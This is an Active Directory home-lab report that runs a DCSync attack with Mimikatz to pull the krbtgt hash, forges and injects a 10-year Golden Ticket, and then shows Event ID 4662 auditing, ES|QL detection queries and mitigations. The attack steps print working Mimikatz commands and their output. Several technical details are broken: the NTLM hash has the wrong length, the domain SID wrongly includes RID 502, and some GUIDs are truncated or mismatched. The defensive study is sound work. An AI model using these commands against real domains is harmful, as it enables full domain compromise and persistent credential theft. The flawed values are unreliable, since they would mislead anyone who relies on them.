







# DCSync & Golden Ticket Attack — AD Lab Report

**Lab Environment:** `salkaev.local` (Windows Server Active Directory Domain Controller)  
**Target Account:** `krbtgt` (Kerberos service account)  
**Tools Used:** Active Directory PowerShell Module, Mimikatz, Auditpol, Elastic Security (for detection)

---

## Objective

Simulate a complete attack chain in an isolated Active Directory home lab:

1. Assign DCSync replication permissions to a low‑privileged user (`attacker`).
2. Extract the NTLM hash of the `krbtgt` account using Mimikatz (DCSync attack).
3. Create and inject a **Golden Ticket** to obtain persistent, unrestricted domain access.
4. Enable directory service auditing (Event ID 4662) to detect such attacks.

---

## Background

### DCSync Attack

**DCSync** is a technique that allows an attacker with sufficient privileges to impersonate a domain controller and request replication of directory data, including password hashes of all domain users. To perform the attack, the attacker needs the following extended rights on the domain object:

- `Replicating Directory Changes`
- `Replicating Directory Changes All`
- `Replicating Directory Changes In Filtered Set`

These rights are typically assigned only to domain controllers and some administrative accounts. In this lab, we deliberately grant them to the `attacker` user to demonstrate the attack mechanism.

### Golden Ticket Attack

A **Golden Ticket** is a forged Kerberos Ticket-Granting Ticket (TGT) created using the NTLM hash of the `krbtgt` account. With this ticket, an attacker can:

- Impersonate any user in the domain (including Domain Admins)
- Access any resource in the domain
- Maintain persistence for up to 10 years
- Remain undetected even after password changes of compromised accounts

---

## Step 1 — Create the `attacker` User

A new domain user `attacker` was created in the `IT` organizational unit using the **Active Directory Users and Computers** snap‑in.



**Account Details:**

- **First name:** attacker
- **Last name:** attacker
- **Full name:** attacker attacker
- **User logon name:** `attacker@salkaev.local`
- **Pre‑Windows 2000 logon name:** `SALKAEV\attacker`

---

## Step 2 — Assign DCSync Permissions via GUI

To enable the `attacker` user to perform directory replication, three extended rights were assigned on the domain object:

1. Enabled **Advanced Features** in ADUC.
2. Opened **Domain Properties → Security → Advanced**.
3. Added the `attacker` user and, under the **Extended Permissions** tab, checked:
   - `Replicating Directory Changes`
   - `Replicating Directory Changes All`
   - `Replicating Directory Changes In Filtered Set`



The screenshot confirms that `SALKAEV\attacker` received `Allow` permissions for all three extended rights, applied to the entire domain object and all descendants.

---

## Step 3 — Verify Permissions via PowerShell

To confirm the permissions were correctly applied:

```powershell
$domainDN = (Get-ADDomain).DistinguishedName
(Get-Acl "AD:\$domainDN").Access | Where-Object {$_.IdentityReference -match "attacker"} | Format-Table IdentityReference, ActiveDirectoryRights, ObjectType
```



The output shows that `SALKAEV\attacker` has the following extended rights:

| IdentityReference   | ActiveDirectoryRights | ObjectType                           |
|---------------------|------------------------|--------------------------------------|
| SALKAEV\attacker    | ExtendedRight          | 1131f6ad-9c07-11d1-f79f-00c04fc2dd2 |
| SALKAEV\attacker    | ExtendedRight          | 89e95b76-4d4d-4c62-991a-0facbeda640c|
| SALKAEV\attacker    | ExtendedRight          | 1131f6aa-9c07-11d1-f79f-00c04fc2dd2 |
| SALKAEV\attacker    | ExtendedRight          | 1131f6ab-9c07-11d1-f79f-00c04fc2dd2 |

The first GUID (`1131f6ad...`) is not critical; the other three match the required DCSync rights.

---

## Step 4 — Execute DCSync Attack with Mimikatz

With the `Replicating Directory Changes` rights in place, Mimikatz was run to extract the `krbtgt` account data:

```cmd
mimikatz.exe
privilege::debug
lsadump::dcsync /domain:salkaev.local /user:krbtgt
```

Initially, the attack failed with:

```
ERROR kuhl_m_lsadump_dcsync ; GetNCChanges: 0x00002105 (8453)
```

This was due to a delay in permission propagation. After a second attempt, the attack succeeded.



Mimikatz successfully retrieved the `krbtgt` account details:

```
SAM Username    : krbtgt
Account Type    : 30000000 ( USER_OBJECT )
User Account Control    : 00000202 ( ACCOUNTDISABLE_NORMAL_ACCOUNT )
Password last change    : 25.06.2026 11:43:28
Object Security ID    : S-1-5-21-1041245020-857719083-3551066421-502
```

**The extracted NTLM hash:**



```
Credentials:
  Hash NTLM: 94de443d39f7f030927544bddfbcf95bd
  ntlm-0: 94de443d39f7f030927544bddfbcf95bd
  lm-0: 889688b0f6bd1246222d1f30ebd9d721
```

The **NTLM hash of the `krbtgt` account** was successfully extracted:
```
94de443d39f7f030927544bddfbcf95bd
```

This hash is the key to creating a Golden Ticket.

---

## Step 5 — Create and Inject the Golden Ticket

Using the extracted `krbtgt` hash and the domain SID, a Golden Ticket was created and injected into the current session:

```cmd
mimikatz # kerberos::golden /user:Administrator /domain:salkaev.local /sid:S-1-5-21-1041245020-857719083-3551066421-502 /krbtgt:94de443d39f7f030927544bddfbcf95bd /ptt
```

**Command Breakdown:**

| Parameter | Value | Purpose |
|-----------|-------|---------|
| `/user` | `Administrator` | The user to impersonate |
| `/domain` | `salkaev.local` | Target domain |
| `/sid` | `S-1-5-21-1041245020-857719083-3551066421-502` | Domain SID (with RID 502 for krbtgt) |
| `/krbtgt` | `94de443d39f7f030927544bddfbcf95bd` | NTLM hash of krbtgt |
| `/ptt` | — | Pass the Ticket (inject into current session) |

**Successful Output:**

```
User    : Administrator
Domain  : salkaev.local (SALKAEV)
SID     : S-1-5-21-1041245020-857719083-3551066421-502
User Id : 500
Groups Id: *513 512 520 518 519
ServiceKey: 94de443d39f7f030927544bddfbcf95bd - rc4_hmac_nt
Lifetime: 09.08.2026 4:53:18 ; 06.08.2036 4:53:18

-> Ticket : ** Pass The Ticket **

* PAC generated
* PAC signed
* EncTicketPart generated
* EncTicketPart encrypted
* KrbCred generated

Golden ticket for 'Administrator @ salkaev.local' successfully submitted for current session
```



---

## Step 6 — Verify Golden Ticket

To confirm the ticket was successfully injected:

```cmd
C:\x64>klist
```

**Output:**

```
Current LogonId is 0:0xf1ae9

Cached Tickets: (1)

#0>    Client: Administrator @ salkaev.local
       Server: krbtgt/salkaev.local @ salkaev.local
       KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
       Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
       Start Time: 8/9/2026 4:53:18 (local)
       End Time:   8/6/2036 4:53:18 (local)
       Renew Time: 8/6/2036 4:53:18 (local)
       Session Key Type: RSADSI RC4-HMAC(NT)
       Cache Flags: 0x1 -> PRIMARY
       Kdc Called:
```



**Key Observations:**

| Attribute | Value | Implication |
|-----------|-------|-------------|
| **Client** | `Administrator @ salkaev.local` | Successfully impersonated Domain Admin |
| **Ticket Type** | `krbtgt` | TGT for domain authentication |
| **Encryption** | `RC4-HMAC(NT)` | Legacy encryption (detectable) |
| **End Time** | `8/6/2036` | Ticket valid for **10 years** |
| **Cache Flags** | `PRIMARY` | Ticket is active in the session |

**The Golden Ticket is successfully working!**

---

## Step 7 — Enable Auditing for DCSync Detection

To log directory service access events (Event ID 4662), auditing for the **Directory Service Access** subcategory was enabled:

```powershell
auditpol /set /subcategory:"Directory Service Access" /success:enable /failure:enable
auditpol /get /subcategory:"Directory Service Access"
```


Now any operation using the DCSync extended rights will be logged in the domain controller's Security event log.

---

## Step 8 — Detection in Elastic Security

After executing the attack, Windows event logs were analyzed in Elastic Security using **ES|QL** to detect DCSync activity.

### ES|QL Detection Query

```sql
FROM winlogbeat-9.4.3 
| WHERE event.code == "4662" 
| WHERE winlog.event_data.SubjectUserName NOT LIKE "%$"
| KEEP @timestamp, winlog.event_data.SubjectUserName, winlog.event_data.Properties
| SORT @timestamp DESC
```


**Findings:**

| Timestamp | User | Properties | Verdict |
|-----------|------|------------|---------|
| `Aug 8, 2026 @ 13:16:28.306` | `attacker` | `Control Access {1311f6aa-9c07-11d1-f79f-00c04fc2dcd2}` | **DCSync detected** ✅ |
| `Aug 8, 2026 @ 13:16:28.306` | `attacker` | `Control Access {1311f6ad-9c07-11d1-f79f-00c04fc2dcd2}` | **DCSync detected** ✅ |
| `Aug 8, 2026 @ 13:51:36.234` | `ADDC01$` | `Control Access {1311f6aa-...}` | Legitimate replication (excluded) |

The query successfully identified the DCSync attack from the `attacker` account while excluding legitimate replication from the domain controller (`ADDC01$`).

---

## Result

The lab successfully demonstrated the complete attack chain:

| Phase | Action | Status |
|-------|--------|--------|
| 1 | Created `attacker` user in Active Directory | ✅ |
| 2 | Assigned DCSync extended rights via GUI | ✅ |
| 3 | Verified permissions via PowerShell | ✅ |
| 4 | Extracted `krbtgt` NTLM hash using Mimikatz (DCSync) | ✅ |
| 5 | Created and injected Golden Ticket | ✅ |
| 6 | Verified ticket with `klist` | ✅ |
| 7 | Enabled auditing for Event ID 4662 | ✅ |
| 8 | Detected DCSync in Elastic Security | ✅ |

**Critical Findings:**

- **KRBTGT Hash:** `94de443d39f7f030927544bddfbcf95bd`
- **Domain SID:** `S-1-5-21-1041245020-857719083-3551066421`
- **Golden Ticket Lifetime:** 10 years (until 06.08.2036)
- **DCSync Detection:** Confirmed via Event ID 4662 with GUIDs `1131f6aa` and `1131f6ad`

---

## Detection Recommendations

### For DCSync Attacks

1. **Monitor Event ID 4662:** Focus on the following GUIDs:
   - `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` (Replicating Directory Changes)
   - `1131f6ab-9c07-11d1-f79f-00c04fc2dcd2` (Replicating Directory Changes All)
   - `89e95b76-444d-4c62-991a-0facbeda640c` (Replicating Directory Changes In Filtered Set)

2. **Filter Out Domain Controllers:** Exclude accounts ending with `$` (machine accounts).

3. **Correlate with Privilege Escalation:** Detect when non‑privileged users request replication rights.

### For Golden Ticket Detection

1. **Monitor Abnormal Ticket Lifetimes:** Tickets with validity exceeding 24 hours (especially 10 years) are suspicious.

2. **Watch for RC4 Encryption:** Golden Tickets often use RC4-HMAC (Event ID 4768/4769 with ticket options 0x40810010).

3. **Detect Missing Pre‑Authentication:** Golden Tickets bypass pre‑authentication (Event ID 4768 with pre‑auth flag 0).

4. **Monitor TGT to TGS Ratio:** Unusual TGS requests without prior TGT (Event ID 4769 without preceding 4768).

### ES|QL Detection Rule

```sql
FROM winlogbeat-*
| WHERE event.code == "4662"
| WHERE winlog.event_data.SubjectUserName NOT LIKE "%$"
| WHERE winlog.event_data.Properties RLIKE "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2|1131f6ad-9c07-11d1-f79f-00c04fc2dcd2"
| KEEP @timestamp, winlog.event_data.SubjectUserName, winlog.event_data.Properties
| STATS attempts = COUNT(*) BY winlog.event_data.SubjectUserName
| WHERE attempts > 1
```

### Mitigation Strategies

1. **Double Change KRBTGT Password:** Change the `krbtgt` password twice (with 10‑hour interval) to invalidate all Golden Tickets.

2. **Limit DCSync Rights:** Regularly audit who has replication permissions using:

```powershell
(Get-Acl "AD:\$domainDN").Access | Where-Object {$_.ObjectType -in @("1131f6aa-9c07-11d1-f79f-00c04fc2dcd2", "1131f6ab-9c07-11d1-f79f-00c04fc2dcd2")}
```

3. **Enable Advanced Audit Policies:** Ensure Directory Service Access auditing is enabled on all domain controllers.

4. **Use Managed Service Accounts:** Avoid using domain admin accounts for services.

5. **Implement SIEM Monitoring:** Use Elastic Security (or other SIEM) with custom detection rules.

---

## Environment

- **Domain:** `salkaev.local`
- **Domain Controller:** `ADDC01.salkaev.local (192.168.10.7)`
- **Attack Tool:** Mimikatz 2.2.0 (x64)
- **Detection Platform:** Windows Event Logs + Elastic Security (ES|QL)
- All activities were performed exclusively within an isolated Active Directory home lab environment.

---

## References

- [Mimikatz GitHub Repository](https://github.com/gentilkiwi/mimikatz)
- [DCSync Attack - ATT&CK T1003.006](https://attack.mitre.org/techniques/T1003/006/)
- [Golden Ticket - ATT&CK T1558.001](https://attack.mitre.org/techniques/T1558/001/)
- [Microsoft Event ID 4662 Documentation](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4662)
- [Elastic Security ES|QL Documentation](https://www.elastic.co/guide/en/elasticsearch/reference/current/esql.html)